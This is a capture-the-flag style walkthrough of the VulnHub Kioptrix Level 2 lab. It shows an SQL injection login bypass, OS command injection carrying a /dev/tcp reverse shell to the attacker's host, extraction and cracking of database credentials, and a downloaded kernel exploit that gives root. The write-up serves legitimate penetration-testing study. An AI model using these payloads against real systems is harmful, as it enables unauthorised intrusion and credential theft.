



# VulnHub: Kioptrix Level 2

The actual exploitation of Kioptrix Level 2 is really easy only if you go through proper enumeration and analyzing everything that you have. Gaining access to the machine is really simple but the main fun begins after that while escalating your privileges. 

So, let's begin!

## Initial Enumeration

For enumeration, we can get started with running an `nmap` scan and trying to access the machine via a web browser to see if some website is hosted over there.

The results of `nmap` are like

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ sudo nmap -sS -p- -T3 192.168.0.191                 
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 09:54 EDT
Nmap scan report for 192.168.0.191
Host is up (0.020s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
1006/tcp open  unknown
3306/tcp open  mysql
MAC Address: 08:00:27:E5:35:6A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 34.70 seconds


┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ sudo nmap -sC -sV -O -p22,80,111,443,631,1006,3306 192.168.0.191                 
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 10:17 EDT
Nmap scan report for 192.168.0.191
Host is up (0.022s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1003/udp   status
|_  100024  1           1006/tcp   status
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2021-04-28T18:17:34+00:00; +4h00m04s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
1006/tcp open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:E5:35:6A (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: 4h00m03s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.39 seconds
```

It can be seen that ports 22, 80, 111, 443, 631, 1006 and 3306 are open on the target machine. 

## Gaining Access

When we access the IP address, we can see a login page is hosted over there.



The first thing that could come to our mind after looking at this login page would be SQLi. So, we can try to pass `' OR 1=1--` as the username as well as password. As this SQLi works, we are redirected to another page from where we can ping machines on the network.



We can first simply try the loopback IP i.e. "127.0.0.1" to which we can get a response like



Now that we are sure that the `ping` command is being executed in the background, we can check if OS command Injection can be performed from here.

To test OS Command Injection, we can send simple input like "127.0.0.1; whoami" and see if the result gets reflected in the output

```
127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.547 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.79 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.141 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 0.141/0.827/1.794/0.703 ms, pipe 2
apache
```

On the last line, we can see that `apache` is returned. So, we can be sure that OS Command Injection can be performed over here. Through the same method we can gain a reverse shell as well by sending a command to create a reverse shell

```
127.0.0.1; sh -i >& /dev/tcp/192.168.0.164/4444 0>&1
```

And along with that we need to start a listener to get the reverse shell

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.0.164] from (UNKNOWN) [192.168.0.191] 32769
sh: no job control in this shell
sh-3.00$ whoami
apache
sh-3.00$ hostname
kioptrix.level2
```

Now, as this is a dumb shell we can upgrade it using the method explained over [here](https://0xnirvana.medium.com/tryhackme-convertmyvideo-eb2a1f8dd747).

## Privilege Escalation

The first thing that we can check for are the commands that our user could run with `sudo` privileges using the command `sudo -l` but it asks for password which we don't know.

The next thing that we can check is if any cronjob is running on the system

```bash
bash-3.00$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly
```

But we can't see any such suspicious cronjob running over here. 

We can also check if there are any other users on the system and if we can access their directories. 

```bash
bash-3.00$ cd /home
bash-3.00$ ls -la
total 24
drwxr-xr-x   4 root   root   4096 Oct 12  2009 .
drwxr-xr-x  23 root   root   4096 Apr 29 03:09 ..
drwx------   2 harold harold 4096 Oct 12  2009 harold
drwx------   2 john   john   4096 Oct  8  2009 john
bash-3.00$ cd harold/
bash: cd: harold/: Permission denied
bash-3.00$ cd john/
bash: cd: john/: Permission denied
```

It can be seen that there are two users on the system "harold" and "john" but we don't have access to anyone's directory.

Now, as the username is `apache` we can assume that this user is created for some web service. So, we can check the files in `var/www` directory to see if we can find some sensitive information that might help us to escalate privileges. 

If we recall, then we had found an SQLi on the `index.php` page. So, it means that it would've been connected to some database in the backend. So, we can try to read the code for `index.php` in `/var/www/html` to see we can find some useful information.

```php
bash-3.00$ cat index.php 
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
```

And the very beginning of the file we can find MySQL login credentials for user "john". Just to check if there is a case of password reuse we can first try to switch user to "john" or "harold" using the password "hiroshima" before check the database.

```bash
bash-3.00$ su john
Password: 
su: incorrect password
bash-3.00$ su harold
Password: 
su: incorrect password
```

But it appears like there is no password reuse over here. So, we can move and see if any useful information can be obtained from the database.

```mysql
bash-3.00$ mysql -u john -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5 to server version: 4.1.22

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
| webapp   |
+----------+
3 rows in set (0.03 sec)
```

It can be seen that there are 3 tables. We can check each one of them.

Beginning with table "mysql"

```bash
mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| func                      |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
15 rows in set (0.00 sec)
```

It can be seen that there are multiple tables in this database but the one that appears to be the most interesting is "user".

```mysql
mysql> describe user;
+-----------------------+-----------------------------------+------+-----+---------+-------+
| Field                 | Type                              | Null | Key | Default | Extra |
+-----------------------+-----------------------------------+------+-----+---------+-------+
| Host                  | varchar(60)                       |      | PRI |         |       |
| User                  | varchar(16)                       |      | PRI |         |       |
| Password              | varchar(41)                       |      |     |         |       |
| Select_priv           | enum('N','Y')                     |      |     | N       |       |
| Insert_priv           | enum('N','Y')                     |      |     | N       |       |
| Update_priv           | enum('N','Y')                     |      |     | N       |       |
| Delete_priv           | enum('N','Y')                     |      |     | N       |       |
| Create_priv           | enum('N','Y')                     |      |     | N       |       |
| Drop_priv             | enum('N','Y')                     |      |     | N       |       |
| Reload_priv           | enum('N','Y')                     |      |     | N       |       |
| Shutdown_priv         | enum('N','Y')                     |      |     | N       |       |
| Process_priv          | enum('N','Y')                     |      |     | N       |       |
| File_priv             | enum('N','Y')                     |      |     | N       |       |
| Grant_priv            | enum('N','Y')                     |      |     | N       |       |
| References_priv       | enum('N','Y')                     |      |     | N       |       |
| Index_priv            | enum('N','Y')                     |      |     | N       |       |
| Alter_priv            | enum('N','Y')                     |      |     | N       |       |
| Show_db_priv          | enum('N','Y')                     |      |     | N       |       |
| Super_priv            | enum('N','Y')                     |      |     | N       |       |
| Create_tmp_table_priv | enum('N','Y')                     |      |     | N       |       |
| Lock_tables_priv      | enum('N','Y')                     |      |     | N       |       |
| Execute_priv          | enum('N','Y')                     |      |     | N       |       |
| Repl_slave_priv       | enum('N','Y')                     |      |     | N       |       |
| Repl_client_priv      | enum('N','Y')                     |      |     | N       |       |
| ssl_type              | enum('','ANY','X509','SPECIFIED') |      |     |         |       |
| ssl_cipher            | blob                              |      |     |         |       |
| x509_issuer           | blob                              |      |     |         |       |
| x509_subject          | blob                              |      |     |         |       |
| max_questions         | int(11) unsigned                  |      |     | 0       |       |
| max_updates           | int(11) unsigned                  |      |     | 0       |       |
| max_connections       | int(11) unsigned                  |      |     | 0       |       |
+-----------------------+-----------------------------------+------+-----+---------+-------+
31 rows in set (0.00 sec)

mysql> select Host, User, Password from user;
+-----------------------+------+------------------+
| Host                  | User | Password         |
+-----------------------+------+------------------+
| localhost             | root | 5a6914ba69e02807 |
| localhost.localdomain | root | 5a6914ba69e02807 |
| localhost.localdomain |      |                  |
| localhost             |      |                  |
| localhost             | john | 5a6914ba69e02807 |
+-----------------------+------+------------------+
5 rows in set (0.00 sec)
```

Because there are a large number of columns in the table, we can select only the columns that we are interested in which are `Host, User and Password`.

From the table, we can see that for both `root` and `john` the password value is same. This password appears to be a hash and to check that we can use `hashid`

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ hashid 5a6914ba69e02807
Analyzing '5a6914ba69e02807'
[+] MySQL323 
[+] DES(Oracle) 
[+] Half MD5 
[+] Oracle 7-10g 
[+] FNV-164 
[+] CRC-64 
[+] Cisco-PIX(MD5) 
[+] Cisco-ASA(MD5) 
```

As per `hashid` this hash could be a MySQL323 hash. So, we can use `john` to crack this hash.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ echo 5a6914ba69e02807 > hash
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt --format=mysql
Using default input encoding: UTF-8
Loaded 1 password hash (mysql, MySQL pre-4.1 [32/64])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
hiroshima        (?)
1g 0:00:00:00 DONE (2021-04-28 23:59) 20.00g/s 1085Kp/s 1085Kc/s 1085KC/s iiloveyou..250895
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

But this appears to be a rabbit hole as we got the same password that we had obtained from the `index.php` file. 

But we still have 2 more databases to explore. So, we can move on to the next database "test".

```bash
mysql> use test;
Database changed
mysql> show tables;
Empty set (0.00 sec)
```

But this database does not contain any tables so, we can move on to the next database "webapp".

```mysql
mysql> use webapp;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_webapp |
+------------------+
| users            |
+------------------+
1 row in set (0.00 sec)

mysql> describe users;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(11)      | YES  |     | NULL    |       |
| username | varchar(100) | YES  |     | NULL    |       |
| password | varchar(10)  | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

mysql> select * from users;
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
|    1 | admin    | 5afac8d85f |
|    2 | john     | 66lajGGbla |
+------+----------+------------+
2 rows in set (0.01 sec)
```

In the "webapp" database there is only one table names "users". And in that table we can see two entries each for "admin" and "john". On checking the password values with `hashid` no result was obtained, which means that both these values might be the actual password. So, we can try to use these password to switch user. Again, there is no user named "admin" on the machine so we can try to check each password with username "john", "harold" and "root".

But sadly, none of the passwords work for any of the usernames. So, this entire database thing turned out to be a rabbit hole. We can now check details of the system to find any exploit related to the OS or kernel.

```bash
bash-3.00$ hostname 
kioptrix.level2
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cat /proc/version 
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007
bash-3.00$ cat /etc/*-release
CentOS release 4.5 (Final)
```

IT can be seen that system is running on CentOS 4.5 (Linux Version 2.6.9-55.EL). So, we can look for exploits associated with this.

The first link when we google for *"CentOS 4.5 exploit"* leads us to this [exploit](https://www.exploit-db.com/exploits/9542). We can download it on our machine and then send it to the target machine using a python server and `wget`. And run it as per the steps mentioned in the exploit itself.

```bash
bash-3.00$ wget http://192.168.0.164:8000/9542.c
--04:12:24--  http://192.168.0.164:8000/9542.c
           => `9542.c'
Connecting to 192.168.0.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/x-csrc]

100%[====================================>] 2,643         --.--K/s             

04:12:24 (39.38 MB/s) - `9542.c' saved [2643/2643]

bash-3.00$ gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exploit 
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# cd /root
sh-3.00# ls -la
total 144
drwxr-x---   2 root root  4096 Oct 12  2009 .
drwxr-xr-x  23 root root  4096 Apr 29 03:09 ..
-rw-r--r--   1 root root  1168 Oct  7  2009 anaconda-ks.cfg
-rw-r--r--   1 root root   215 Feb  9  2012 .bash_history
-rw-r--r--   1 root root    24 Feb 21  2005 .bash_logout
-rw-r--r--   1 root root   191 Feb 21  2005 .bash_profile
-rw-r--r--   1 root root   176 Feb 21  2005 .bashrc
-rw-r--r--   1 root root   100 Feb 21  2005 .cshrc
-rw-r--r--   1 root root 53255 Oct  7  2009 install.log
-rw-r--r--   1 root root  3842 Oct  7  2009 install.log.syslog
-rw-------   1 root root  1509 Oct  8  2009 .mysql_history
-rw-r--r--   1 root root   102 Feb 21  2005 .tcshrc
sh-3.00# 
```

And by running just a simple exploit script, we got the access to the machine as `root`!

## Some Key Points to Take Away

1. Always take a look at the details of the system while performing initial enumeration of the system for privilege escalation.

## References

1. Kioptrix Level 2: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
2. Upgrading Shell: https://0xnirvana.medium.com/tryhackme-convertmyvideo-eb2a1f8dd747
3. CVE-2009-2698 (Privilege Escalation): https://www.exploit-db.com/exploits/9542